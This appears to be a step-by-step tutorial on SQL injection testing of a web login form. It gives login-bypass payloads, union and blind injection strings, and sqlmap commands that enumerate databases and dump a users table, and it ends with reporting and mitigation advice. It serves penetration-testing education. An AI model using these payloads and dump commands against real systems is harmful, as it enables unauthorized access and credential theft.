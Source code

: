 # SQL-Injection

Let's dive deeply into SQL Injection testing on the login page of your target application. Here’s how to conduct it step-by-step, with detailed explanations for each part. SQL Injection is a technique used to exploit vulnerabilities in applications that improperly sanitize or validate user inputs, allowing attackers to execute arbitrary SQL queries on the database.

### **Step 1: Understand the Login Form Structure**

1. **Open the Login Page**: Navigate to the login page at for example `http://10.116.58.10`.
   - Observe the fields: Typically, a login form has fields like **username** and **password**.
   - Identify form submission methods: Right-click on the login page, inspect it with Developer Tools, and note the form’s method (usually POST) and URL path (e.g., `/login`).

2. **Inspect HTTP Request**: Use **Browser DevTools** (Network tab) to observe the HTTP request sent when logging in.
   - Enter any credentials (e.g., username: `test`, password: `test`) and hit submit.
   - Inspect the request payload to see how data is sent. This helps us understand how SQL Injection payloads should be crafted.

### **Step 2: Basic SQL Injection Testing**

**2.1 Manual Testing with Common Payloads**
1. **Identify Vulnerable Parameters**: Start by testing the username field to see if it’s vulnerable to SQL Injection.
   - Enter the following in the username field: `' OR '1'='1`
   - Leave the password field blank or with any random string.
   - Click login and observe the behavior.

   **Expected Result**: If the form is vulnerable, this payload might allow you to bypass the login if the application improperly processes this input in SQL. The `OR '1'='1` portion always evaluates to true, potentially granting access.

2. **Common SQL Injection Payloads**:
   - Here are a few variations to try in the username field to identify the vulnerability:
     - `' OR '1'='1' -- `
     - `admin' -- `
     - `admin' #`
     - `admin' OR '1'='1`

   - After entering each payload, observe if the application grants access or produces an error message. These responses often indicate whether the application is vulnerable to SQL Injection.

**Example**:
   - **Payload**: `' OR '1'='1' -- `
   - **Outcome**: Successful login without a password or an error message that reveals the backend SQL structure.

### **Step 3: Observing Error Messages**

Error messages can provide valuable clues about SQL Injection vulnerabilities. If any payload results in an error like `Syntax error in SQL statement`, `Unclosed quotation mark after the character string`, or similar, it could indicate a vulnerability.

1. **Testing Error-Based SQL Injection**:
   - Enter a payload designed to cause an SQL syntax error, such as:
     - `admin' OR 1=1-- -`
   - **Expected Outcome**: If error messages appear, they can reveal the database structure and help you craft more advanced payloads.

### **Step 4: Automated SQL Injection Testing with SQLmap**

SQLmap is a powerful tool for automating SQL Injection detection and exploitation. Let’s use it to verify if SQL Injection is possible and retrieve data from the database.

1. **Identify the Form Action URL and Method**: From the previous inspection, note down the form’s URL (e.g., `/login`) and whether it uses POST or GET for data submission.

2. **Run SQLmap**:
   - If the form uses POST, use a command like:
     ```bash
     sqlmap -u "http://10.116.58.10/login" --data="username=admin&password=test" --dbs
     ```
   - This command tells SQLmap to test the login URL, with `username` and `password` as form data.

   **Explanation**:
   - `-u`: Specifies the target URL.
   - `--data`: Provides the POST data parameters and values.
   - `--dbs`: Tells SQLmap to enumerate available databases if a vulnerability is found.

3. **Analyze SQLmap Output**:
   - If the page is vulnerable, SQLmap will output something like:
     ```
     [INFO] Parameter 'username' appears to be injectable
     ```
   - SQLmap will also list the databases found on the server if it can exploit the vulnerability.

4. **Retrieve Information**:
   - Once SQLmap identifies a vulnerable parameter, you can extract further data. For example:
     - To list tables in a specific database:
       ```bash
       sqlmap -u "http://10.116.58.10/login" --data="username=admin&password=test" -D target_db --tables
       ```
     - Replace `target_db` with the actual database name found in the previous step.

     - To extract data from a table (e.g., `users`):
       ```bash
       sqlmap -u "http://10.116.58.10/login" --data="username=admin&password=test" -D target_db -T users --dump
       ```

**Example Output**:
   ```
   Database: target_db
   Table: users
   +----+----------+----------+
   | id | username | password |
   +----+----------+----------+
   | 1  | admin    | admin123 |
   | 2  | guest    | guest123 |
   ```

---

### **Step 5: Advanced SQL Injection Techniques**

Once basic SQL Injection is confirmed, advanced techniques can be applied:

1. **Union-Based SQL Injection**:
   - If the application is vulnerable, UNION-based SQL Injection can help extract data.
   - Example payload for union-based injection:
     ```
     admin' UNION SELECT null, version()-- 
     ```
   - **Expected Outcome**: This payload can reveal the database version, helpful for tailoring further attacks.

2. **Boolean-Based Blind SQL Injection**:
   - For applications that don’t display error messages, Boolean-based SQL Injection can help verify conditions.
   - Try payloads like:
     ```
     admin' AND 1=1 -- (should return true and grant access)
     admin' AND 1=2 -- (should return false and deny access)
     ```

3. **Time-Based Blind SQL Injection**:
   - If no visible response is shown, time-based injections can determine if SQL queries are executed.
   - Example payload:
     ```
     admin' OR IF(1=1, SLEEP(5), 0)-- 
     ```
   - **Expected Outcome**: If the application delays the response by 5 seconds, the injection is working.

### **Step 6: Document Findings and Report**

After performing these tests:
1. **Document Each Payload and Result**: Describe each injection attempt, payload used, and the application's response.
2. **Provide Screenshots (If Possible)**: Take screenshots showing the injected payload and application response for evidence.
3. **Summarize Vulnerabilities**: Conclude with specific recommendations, such as using prepared statements or parameterized queries, to mitigate SQL Injection risks.

---

### **Sample SQL Injection Checklist**

- **Basic Input Testing**: Check if special characters trigger errors.
- **Error-Based SQL Injection**: Test payloads to identify database errors.
- **SQLmap Testing**: Automate checks with SQLmap for all parameters.
- **Union-Based Injection**: Use UNION to combine query results.
- **Boolean and Time-Based Blind SQL**: For sites that don’t display errors.
- **Report and Document**: Detail all findings with evidence.
